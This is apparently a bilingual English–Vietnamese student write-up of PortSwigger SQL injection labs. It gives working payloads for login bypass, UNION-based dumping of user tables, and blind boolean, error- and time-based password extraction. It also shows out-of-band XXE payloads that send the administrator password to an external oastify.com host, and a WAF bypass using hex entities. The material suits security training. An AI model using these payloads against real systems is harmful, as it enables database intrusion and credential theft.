# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
> Lab SQL injection trong mệnh đề WHERE cho phép trích xuất dữ liệu ẩn  

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.


> Lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Khi người dùng chọn một danh mục, ứng dụng sẽ thực hiện một truy vấn SQL tương tự như sau:

```SELECT * FROM products WHERE category = 'Gifts' AND released = 1```

> Để giải quyết bài lab, hãy thực hiện một cuộc tấn công SQL injection khiến ứng dụng hiển thị một hoặc nhiều sản phẩm chưa được phát hành.     




Khi nhìn vào endpoint này chúng ta thấy rằng có thể khai thác như sau thành Gifts' OR 1=1--.
Như vậy câu lệnh SQL sẽ như sau 

```SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1```    

Và như vậy chúng ta sẽ thành công truy xuất được các sản phẩm khác chưa phát hành.



# Lab: SQL injection vulnerability allowing login bypass 
> SQLi giúp bypass login

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

> Lab này chứa một lỗ hổng SQL injection trong chức năng đăng nhập. 

> Giải lab bằng cách sử dụng SQLi để login vào ứng dụng với tư cách administrator.  



E tiến hành Intercept gói tin rồi sửa payload hợp lệ và thành công login vào tài khoản administrator. 

```csrf=IlGDB4GOyEsFNstipmKqvSt6XJ8NRBWW&username=administrator' OR 1=1--&password=admin```.

# Lab: SQL injection UNION attack, determining the number of columns returned by the query
> Tấn công SQLi UNION, xác định số lượng cột trả về từ truy vấn

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
> Phòng thí nghiệm này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn sẽ được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng tấn công UNION để lấy dữ liệu từ các bảng khác. Bước đầu tiên của một cuộc tấn công như vậy là xác định số lượng cột được truy vấn trả về. Sau đó, bạn sẽ sử dụng kỹ thuật này trong các phòng thí nghiệm tiếp theo để xây dựng toàn bộ đòn tấn công.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.
> Để giải quyết phòng thí nghiệm, xác định số cột trả về bởi truy vấn bằng cách thực hiện tấn công SQL injection UNION trả về thêm một dòng chứa giá trị null.  



E lần lượt sử dụng payload thêm vào phần filter, cứ lần lượt thêm NULL vào như vậy.

```/filter?category=Accessories' UNION SELECT NULL-- ```



Như vậy e đã xác định được số cột hợp lệ là 3. Với payload:

```/filter?category=Accessories' UNION SELECT NULL,NULL,NULL--```

# Lab: SQL injection UNION attack, finding a column containing text
> Tấn công SQLi UNION, xác định cột chứa dữ liệu kí tự 

Bài này tương tự như bài trên nhưng kèm theo phải xác định cột, em lần lượt thay giá trị vào NULL và nhận được cột hợp lệ.



```/filter?category=Gifts' UNION SELECT NULL,'yRMDdj',NULL--```

# Lab: SQL injection UNION attack, retrieving data from other tables
> Tấn công SQL injection UNION, lấy dữ liệu từ các bảng khác

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
> Phòng thí nghiệm này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn sẽ được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng tấn công UNION để lấy dữ liệu từ các bảng khác. Để tạo ra một đòn tấn công như vậy, bạn cần kết hợp một số kỹ thuật đã học trong các phòng thí nghiệm trước.

The database contains a different table called users, with columns called username and password.
> Cơ sở dữ liệu chứa một bảng khác gọi là users, với các cột gọi là username và password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.
> Để giải quyết phòng thí nghiệm, hãy thực hiện tấn công SQL injection UNION để lấy tất cả tên người dùng và mật khẩu, và sử dụng thông tin này để đăng nhập với tư cách quản trị viên.



E tiến hành tấn công UNION với NULL và xác định được câu lệnh SELECT trước đó phù hợp có 2 cột. Sau đó e tiến hành dùng UNION và SELECT để lấy hết tài khoản mật khẩu thành công.



# Lab: SQL injection attack, querying the database type and version on Oracle
> SQL injection tấn công Oracle, truy vấn loại và phiên bản cơ sở dữ liệu trên 
Oracle

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> Phòng thí nghiệm này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Bạn có thể sử dụng một cuộc tấn công UNION để lấy kết quả từ một truy vấn được tiêm vào.

To solve the lab, display the database version string.
> Để giải quyết phòng thí nghiệm, hiển thị chuỗi phiên bản cơ sở dữ liệu.   



E sử dụng UNION và SELECT với bảng DUAL vì đây là Oracle DB. Xác định được có 2 cột. Tiến hành tấn công.

```' UNION SELECT banner, NULL FROM v$version--```



# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> Phòng thí nghiệm này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Bạn có thể sử dụng một cuộc tấn công UNION để lấy kết quả từ một truy vấn được tiêm vào.

To solve the lab, display the database version string.
> Để giải quyết phòng thí nghiệm, hiển thị chuỗi phiên bản cơ sở dữ liệu.



```' UNION SELECT NULL,@@version# ```

Tương tự với Oracle, khác chỗ MySQL comment là '#', còn Oracle comment là '--'. 

# Lab: SQL injection attack, listing the database contents on non-Oracle databases
>  Tấn công SQL injection, liệt kê nội dung cơ sở dữ liệu trên các cơ sở dữ liệu không phải Oracle

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> Phòng thí nghiệm này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn sẽ được trả về trong phản hồi của ứng dụng để bạn có thể sử dụng cuộc tấn công UNION để lấy dữ liệu từ các bảng khác.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> Ứng dụng có chức năng đăng nhập, và cơ sở dữ liệu chứa một bảng lưu trữ tên đăng nhập và mật khẩu. Bạn cần xác định tên của bảng này và các cột mà nó chứa, sau đó truy xuất nội dung của bảng để lấy tên người dùng và mật khẩu của tất cả người dùng.

To solve the lab, log in as the administrator user.
> Để giải quyết phòng thí nghiệm, hãy đăng nhập với tư cách quản trị viên.



Xác định câu SELECT phía trước có 2 cột. 

```' UNION SELECT NULL,NULL--```



Xác định 2 cột đều là kiểu chuỗi.

```' UNION SELECT 'aaa','aaaa'--```


Tiến hành liệt kê TABLE_CATALOG và TABLE_NAME

```' UNION SELECT TABLE_CATALOG,TABLE_NAME FROM information_schema.tables--```



Nhận thấy users_uoytdc có thể là bảng hợp lệ chứa thông tin người dùng. Tiến hành truy xuất thêm về nội dung các cột bên trong users_uoytdc.



```' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_uoytdc'--```

Thu được tên 2 cột username_fxucih, và password_jcdocb



```' UNION SELECT username_fxucih,password_jcdocb FROM users_uoytdc--```



# Lab: SQL injection attack, listing the database contents on Oracle
> Tấn công SQLi, liệt kê nội dung csdl trên Oracle

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> Phòng thí nghiệm này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn sẽ được trả về trong phản hồi của ứng dụng để bạn có thể sử dụng cuộc tấn công UNION để lấy dữ liệu từ các bảng khác.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> Ứng dụng có chức năng đăng nhập, và cơ sở dữ liệu chứa một bảng lưu trữ tên đăng nhập và mật khẩu. Bạn cần xác định tên của bảng này và các cột mà nó chứa, sau đó truy xuất nội dung của bảng để lấy tên người dùng và mật khẩu của tất cả người dùng.

To solve the lab, log in as the administrator user.
> Để giải quyết phòng thí nghiệm, hãy đăng nhập với tư cách quản trị viên.




```' UNION SELECT NULL,NULL FROM DUAL--```

Xác định số cột hợp lệ là 2.



Xác định 2 cột đều có kiểu dữ liệu là chuỗi.



```' UNION SELECT TABLE_NAME,NULL FROM all_tables--```

Xác định bảng lưu thông tin người dùng có thể là USERS_WCBONP.




```' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_WCBONP'--```

Truy xuất các cột trong bảng.



```' UNION SELECT USERNAME_RFKGRQ,PASSWORD_XOVWKA FROM USERS_WCBONP--```

Thành công tìm thông tin người dùng.



# Lab: SQL injection UNION attack, retrieving multiple values in a single column
> Tấn công SQL injection UNION, truy xuất nhiều giá trị trong một cột duy nhất

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> Phòng thí nghiệm này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn sẽ được trả về trong phản hồi của ứng dụng để bạn có thể sử dụng cuộc tấn công UNION để lấy dữ liệu từ các bảng khác.

The database contains a different table called users, with columns called username and password.
> Cơ sở dữ liệu chứa một bảng khác gọi là users, với các cột gọi là username và password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.
> Để giải quyết phòng thí nghiệm, hãy thực hiện tấn công SQL injection UNION để lấy tất cả tên người dùng và mật khẩu, và sử dụng thông tin này để đăng nhập với tư cách quản trị viên.



Sử dụng ```' UNION SELECT NULL,'AAAAAA'``` kiểm tra chỉ có 1 trường là chuỗi. Nên chúng ta muốn thực hiện 1 phép để nối giữa tài khoản và mật khẩu thành một cột ở cột số 2.



Sử dụng ```' UNION SELECT NULL,username || '~' || password FROM users--```

Thu được thông tin tài khoản hợp lệ.



# Lab: Blind SQL injection with conditional responses
> SQLi mù với phản hồi có điều kiện

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> Phòng thí nghiệm này chứa một lỗ hổng SQL injection mù. Ứng dụng sử dụng cookie theo dõi để phân tích dữ liệu và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.
> Kết quả của truy vấn SQL không được trả về và không hiển thị thông báo lỗi. Tuy nhiên, ứng dụng sẽ bao gồm thông báo Chào mừng trở lại trong trang nếu truy vấn trả về bất kỳ dòng nào.   

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
> Cơ sở dữ liệu chứa một bảng khác gọi là users, với các cột gọi là username và password. Bạn cần khai thác lỗ hổng SQL injection mù để tìm mật khẩu của người dùng quản trị.

To solve the lab, log in as the administrator user.
> Để giải quyết phòng thí nghiệm, hãy đăng nhập với tư cách quản trị viên.





```TrackingId=luongvd' OR 1 = 1--```
```TrackingId=luongvd' OR 1 = 2--```

Khi kiểm tra với 2 payloads này rõ ràng chúng ta xác định được đoạn cookie ở TrackingId dính SQLi.

Như vậy là nếu chúng ta tìm 1 vế luôn đúng thì điều kiện sẽ trả về Welome back! như vậy nếu chúng ta xác định được từng kí tự mật khẩu của administrator là gì. Từng kí tự ở vị trí trả về thông báo Welcome back! là sẽ tìm được full mật khẩu.



Sử dụng ```TrackingId=luongvd' OR SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1) > 'a' --``` để kiểm tra thấy kết quả là đúng.

Oke như vậy chúng ta có 2 mục tiêu là xác định chiều dài của password và từng kí tự của password.

E sử dụng payload sau ở tab Intruder

```TrackingId=luongvd' OR LENGTH((SELECT password FROM users WHERE username='administrator')) = 1 --;```

Như vậy chúng ta sẽ duyệt giá trị đến khi tìm thấy giá trị nào là Welcome back! đích thị là chiều dài password.



Như vậy dễ dàng xác định được chuỗi password có 20 kí tự phần tiếp là xác định từng kí tự là gì.



E tiến hành sử dụng Cluster bomb như sau duyệt từ 1-20, mỗi vị trí thử từ a-z, A-Z, 0-9.



E thành công tìm được 20 kí tự mật khẩu.


Username: administrator

Password: d94jxpwmu6jhxx15sk7l



# Lab: Blind SQL injection with conditional errors
> Tấn công SQL mù với các lỗi có điều kiện

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> Phòng thí nghiệm này chứa lỗ hổng chèn SQL mù. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
> Kết quả của truy vấn SQL không được trả về và ứng dụng không phản hồi theo bất kỳ cách nào khác nhau dựa trên việc truy vấn có trả về bất kỳ hàng nào hay không. Nếu truy vấn SQL gây ra lỗi thì ứng dụng sẽ trả về thông báo lỗi tùy chỉnh.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
> Cơ sở dữ liệu chứa một bảng khác gọi là người dùng, với các cột là tên người dùng và mật khẩu. Bạn cần khai thác lỗ hổng chèn SQL mù để tìm ra mật khẩu của người dùng quản trị viên.

To solve the lab, log in as the administrator user.
> Để giải bài lab, hãy đăng nhập với tư cách người dùng quản trị viên.



Xác định có lỗi ở phần cookie TrackingId. Vấn đề khi thêm ' thì câu lệnh SQL bị lỗi gây ra lỗi. Còn khi thêm '' thì hết lỗi. 

Gỉa sử câu lệnh truy cấn SQL sẽ là 

```SELECT ... FROM ... WHERE TrackingId = 'IJD6KyD8QLgAbilz' ...```

Như vậy chứng tỏ khi đó ở đây đang tồn tại lỗi và lỗi do cú pháp SQL.





Tiếp tục chúng ta sẽ thực hiện kiểm tra đây có phải là Oracle DB không thông qua câu SELECT bắt buộc phải có FROM nếu là Oracle DB.

Như vật chúng ta sẽ tiến hành nối thêm 1 câu SELECT vào.

```SELECT ... FROM ... WHERE TrackingId = 'IJD6KyD8QLgAbilz'```

Nối thêm ```'||(SELECT '')||'``` hoặc ```'||(SELECT '' FROM DUAL)||'```

Như vậy 2 câu lệnh SQL là 

```SELECT ... FROM ... WHERE TrackingId = 'IJD6KyD8QLgAbilz'||(SELECT '')||''```

```SELECT ... FROM ... WHERE TrackingId = 'IJD6KyD8QLgAbilz'||(SELECT '' FROM DUAL)||''```    

Lỗi 



Thành công



Vậy đây là Oracle DB rồi.

Chúng ta có thể xác định xem có tồn tại 1 table nào không bằng cách SELECT 1 ROW rồi ghép vô. 



Như vậy ```TrackingId=IJD6KyD8QLgAbilz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'``` cho ra kết quả thành công chứng tỏ trong DB này tồn tại bảng users.  

Tiếp theo chúng ta sẽ lợi dụng SELECT CASE để kiểm tra sự tồn tại của một user.

Chúng ta sẽ thêm 1 điều khiện đúng khi có dữ liệu nó sẽ dẫn đến một câu lệnh lỗi còn không nó sẽ không làm gì.

Ví dụ 

```SQL
SELECT * FROM products 
WHERE TrackingId = 'IJD6KyD8QLgAbilz' 
|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END 
    FROM users 
    WHERE username='administrator') 
|| ''
```

Như vậy nếu ở đây thực sự có tồn tại username = 'administrator' thì câu SELECT CASE sẽ trả về TO_CHAR(1/0) tức là 1/0 là 1 lỗi chia cho 0 và dẫn đến lỗi.   



Tốt rồi như vậy chúng ta sẽ lần lượt áp dụng cách này để kiểm tra độ dài của password và kiểm tra từng kí tự của password là thành công tìm ra được toàn bộ pass.



```TrackingId=IJD6KyD8QLgAbilz'||(SELECT CASE WHEN (LENGTH(password)>1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

E tiến hành vào Intruder chúng ta sẽ brute sao cho đến đoạn nào nó vừa hay hết lỗi thì chính là chiều dài của pass.



Như vậy rõ ràng pass có chiều dài là 20 rồi.

Tiếp tục sử dụng SUBSTR từng kí tự để kiểm tra, xác dịnh bằng việc có lỗi hoặc không lỗi.

```TrackingId=IJD6KyD8QLgAbilz'||(SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

Như vậy đoạn này chỉ cần tấn công Cluster bomb với 2 vị trí. Lọc các request nào lỗi là thành công tìm ra pass.





# Lab: Visible error-based SQL injection
> Lỗi tấn công SQL injection dựa trên lỗi có thể nhìn thấy

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.
> Phòng thí nghiệm này chứa lỗ hổng SQL SQL. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi. Kết quả của truy vấn SQL không được trả về.    

The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.
> Cơ sở dữ liệu chứa một bảng khác gọi là người dùng, với các cột là tên người dùng và mật khẩu. Để giải quyết bài lab, hãy tìm cách rò rỉ mật khẩu cho người dùng quản trị viên, sau đó đăng nhập vào tài khoản của họ.



Khi thêm dấu ```'``` vào thì website báo lỗi lộ rõ cả câu lệnh SELECT.



```rackingId=hBdec20UqwylU52l'||(SELECT '' FROM DUAL)||'```

Như vậy đây không phải Oracle DB.




Như vậy chúng ta thêm ```'--``` thu được 1 request hợp lệ thêm ```--``` là để loại bỏ phần phía sau.

Như đề bài có lỗi có thể nhìn thấy thêm dữ liệu em sẽ cố ghép thêm 1 dòng CAST một dòng dữ liệu chuỗi thành số để nó lỗi rồi leak từ từ dữ liệu ra.



```TrackingId=hBdec20UqwylU52l' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--;```

Nó cắt mất payload nên e sẽ xóa phần đầu đi.



```' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--```

Như vậy đã có thông báo lỗi ra administrator.

Thực hiện tương tự với password




# Lab: Blind SQL injection with time delays
> Tấn công SQL injection mù với độ trễ thời gian

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> Phòng thí nghiệm này chứa lỗ hổng chèn SQL mù. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
> Kết quả của truy vấn SQL không được trả về và ứng dụng không phản hồi theo bất kỳ cách nào khác nhau dựa trên việc truy vấn trả về bất kỳ hàng nào hay gây ra lỗi. Tuy nhiên, do truy vấn được thực hiện đồng bộ nên có thể kích hoạt độ trễ thời gian có điều kiện để suy ra thông tin.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.
> Để giải quyết bài lab, hãy khai thác lỗ hổng SQL SQL để gây ra độ trễ 10 giây.



SQLi ở phần cookie e tiến hành thêm payload

```'||pg_sleep(10)--``` Như vậy e thấy request phản hồi chậm 10s và e thành công làm xong lab này.

# Lab: Blind SQL injection with time delays and information retrieval
> Tấn công SQL injection mù với độ trễ thời gian và truy xuất thông tin

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> phòng thí nghiệm này chứa lỗ hổng chèn SQL mù. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
> Kết quả của truy vấn SQL không được trả về và ứng dụng không phản hồi theo bất kỳ cách nào khác nhau dựa trên việc truy vấn trả về bất kỳ hàng nào hay gây ra lỗi. Tuy nhiên, do truy vấn được thực hiện đồng bộ nên có thể kích hoạt độ trễ thời gian có điều kiện để suy ra thông tin.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
> Cơ sở dữ liệu chứa một bảng khác gọi là người dùng, với các cột là tên người dùng và mật khẩu. Bạn cần khai thác lỗ hổng chèn SQL mù để tìm ra mật khẩu của người dùng quản trị viên.

To solve the lab, log in as the administrator user.
> Để giải bài lab, hãy đăng nhập với tư cách người dùng quản trị viên.



Em thử với payload ```'||pg_sleep(10)--``` như vậy là payload vẫn hoạt động

Tiếp đến e tiếp tục sử dụng payload

``` ' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) --```



Như vậy là payload hoạt động thành công e tiếp tục sử dụng kết hợp LENGTH để kiểm tra chiều dài của password.

```TrackingId=KOFzy3koKlm34Otr' || (SELECT CASE WHEN (LENGTH(password) = 1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users) --```

E dùng Sniper attack với 1 request đồng thời.



Theo dõi đến 20 thì tắt tịt rất lâu vậy đây chính là chiều dài của password.

Tiếp theo e sẽ kết hợp với SUBSTR để lấy được từng kí tự của password.



```TrackingId=KOFzy3koKlm34Otr' || (SELECT CASE WHEN ((SUBSTR(password,1,1) = 'a') AND username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users) --```



# Lab: Blind SQL injection with out-of-band interaction
> Tấn công SQL injection mù với tương tác ngoài băng tần

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> Phòng thí nghiệm này chứa lỗ hổng chèn SQL mù. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
> Truy vấn SQL được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng tần với miền bên ngoài.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.
> Để giải quyết bài lab, hãy khai thác lỗ hổng SQL SQL để thực hiện tra cứu DNS cho Burp Collaborator.

Ứng dụng có cookie:

```Ứng dụng có cookie:```


Server lấy giá trị cookie này đưa vào câu SQL để analytics.

Nhưng câu SQL chạy asynchronously, nên:

```
Response không đổi
Không có lỗi SQL
Không có delay
Không thấy dữ liệu trả về
```

Vì vậy ta phải dùng OAST / Burp Collaborator để ép database tạo một truy vấn DNS ra ngoài.

Lấy Burp Collaborator payload

hpanyxmo4t3ovnlovll58lmydpjg7jv8.oastify.com



Lần lượt thử các payloads từ SQLi cheat sheet.

Với Oracle DB

```SQL
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://hpanyxmo4t3ovnlovll58lmydpjg7jv8.oastify.com"> %remote;]>'),'/l') FROM dual
```


```x' UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//hpanyxmo4t3ovnlovll58lmydpjg7jv8.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual-- ```

# Lab: Blind SQL injection with out-of-band data exfiltration
> Tấn công SQL injection mù với khả năng đánh cắp dữ liệu ngoài luồng.

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> Phòng thí nghiệm này chứa lỗ hổng chèn SQL mù. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
> Truy vấn SQL được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng tần với miền bên ngoài.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
> Cơ sở dữ liệu chứa một bảng khác gọi là người dùng, với các cột là tên người dùng và mật khẩu. Bạn cần khai thác lỗ hổng chèn SQL mù để tìm ra mật khẩu của người dùng quản trị viên.

To solve the lab, log in as the administrator user.
> Để giải bài lab, hãy đăng nhập với tư cách người dùng quản trị viên.

Giống như bài trước, khi em sử dụng payload có DNS Lookup thì đã thành công tạo đến Burp Collaborator.



Tiếp tục sử dụng 1 payload để chứa thêm password của admin vào subdomain.

```SQL
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual --
```

```SQL
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hpanyxmo4t3ovnlovll58lmydpjg7jv8.oastify.com/"> %remote;]>'),'/l') FROM dual --
```

Như vậy e thành công tìm được password của administrator



# Lab: SQL injection with filter bypass via XML encoding
> Tấn công SQL injection với khả năng vượt qua bộ lọc thông qua mã hóa XML.

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
> Phòng thí nghiệm này chứa lỗ hổng SQL trong tính năng kiểm tra hàng tồn kho. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng tấn công UNION để truy xuất dữ liệu từ các bảng khác.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.
> Cơ sở dữ liệu chứa bảng người dùng, chứa tên người dùng và mật khẩu của người dùng đã đăng ký. Để giải quyết bài lab, hãy thực hiện tấn công SQL để lấy thông tin xác thực của người dùng quản trị viên, sau đó đăng nhập vào tài khoản của họ.



Phần check stock nhận cấu trúc xml để gọi truy vấn SQL.



Khi e thử thêm 1 câu lệnh SQLi vô thì bị phát hiện

Thực hiện dùng Hackvertor để bypass vượt qua WAF. Và thực hiện query tìm tài khoản mật khẩu thành công.

```xml

<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
        1
    </productId>
    <storeId>

    <@hex_entities>
        1 UNION SELECT username || ': ' || password FROM users
    </@hex_entities>

    </storeId>
</stockCheck>
````

